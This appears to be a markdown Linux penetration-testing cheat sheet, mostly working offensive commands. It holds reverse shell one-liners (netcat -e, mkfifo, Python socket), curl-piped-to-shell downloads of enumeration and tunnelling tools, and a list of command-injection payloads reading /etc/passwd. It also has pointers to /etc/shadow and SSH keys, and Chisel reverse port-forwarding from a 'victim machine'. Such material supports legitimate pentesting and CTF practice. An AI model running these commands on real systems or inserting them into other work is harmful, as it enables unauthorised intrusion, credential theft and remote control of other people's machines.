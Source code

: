 # 🐧 Linux

- [Auto Script](#auto-script)
- [Command Injection](#command-injection)
- [File Enumeration](#file-enumeration)
- [Gdbserver](#gdbserver)
- [Port Forwarding](#port-forwarding)
- [Reverse Shell](#reverse-shell)
- [SCP](#scp)
- [Sudo](#sudo)

## Sudo
```
sudo -l
```

## Auto Script
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

## Reverse Shell
### Server
```
nc -lp 4444
```
### reSH
```
# Client
resh ip 4444
# Server
resh 4444
```
[Source](/scripts/resh.py)

### Netcat
```
nc ip 4444 -e /bin/bash
```

### Mkfifo
```
mkfifo /tmp/f;nc ip 4444 0</tmp/f|/bin/sh -i 2>&1|tee /tmp/f
```

### Python
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### TTY Support
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

*[source](https://github.com/acole76/pentestmonkey-cheatsheets/blob/master/shells.md)*

## SCP
### Download File
```
scp -P port user@192.168.1.ip:path .
```

### Upload File
```
scp -P port file user@192.168.1.ip:path
```

### Upload peda
```
scp -P 22 -r ~/.peda user@192.168.1.ip:/tmp/peda
```

## Gdbserver
*Port: 1337*
```
$ gdb
(gdb) target extended-remote ip:port
(gdb) remote get remote_file local_file
(gdb) remote put local_file remote_file
```

## File Enumeration
### Classic
- `/etc/passwd`  &  `/etc/shadow`
- `/www/html` ꞏ `/var/www` ꞏ `/srv/html` ꞏ `/usr/share/*`
- `/home/user/.ssh`
- `/etc/cron.d`
- `/opt/`

### Proc
`/proc/` contains useful information about the processes that are currently running

| directory	          | description                                     |
|---------------------|-------------------------------------------------|
| `/proc/PID/cmdline` | Command line arguments.                         |
| `/proc/PID/cwd`     | Link to the current working directory.          |
| `/proc/PID/environ` | Values of environment variables.                |
| `/proc/PID/exe`     | Link to the executable of this process.         |
| `/proc/PID/fd`      | Directory, which contains all file descriptors. |

### Command

```
find / -user user 2>&-
find / -group group 2>&-
find / -user root -executable -type f 2>&- | grep -v /bin/
```

### Script
```
curl "https://github.com/diego-treitos/linux-smart-enumeration/raw/master/lse.sh" -Lo lse.sh
chmod +x lse.sh
./lse.sh -l1
```

## Command Injection
```bash
;{cat,/etc/passwd}
;cat${IFS}/etc/passwd;
; cat /etc/passwd ;
$(cat /etc/passwd)
`cat /etc/passwd`
&& cat /etc/passwd &&
|| cat /etc/passwd ||
< <(cat /etc/passwd)
| cat /etc/passwd
"; cat /etc/passwd "
```
[GTFOBins - Bypass  local security restrictions](https://gtfobins.github.io/)


## Port Forwarding

### Chisel

```
# Install chisel

curl https://i.jpillora.com/chisel! | bash
```

```bash
# Example: 8000 -> 4444

# Attacker machine:
$> chisel server -p 4444 --reverse

# Victim machine:
$> ./chisel client ip-server:4444 R:8000:127.0.0.1:8000
```

### SSH
```sh
ssh -L 8080:127.0.0.1:8080 user@ip
```
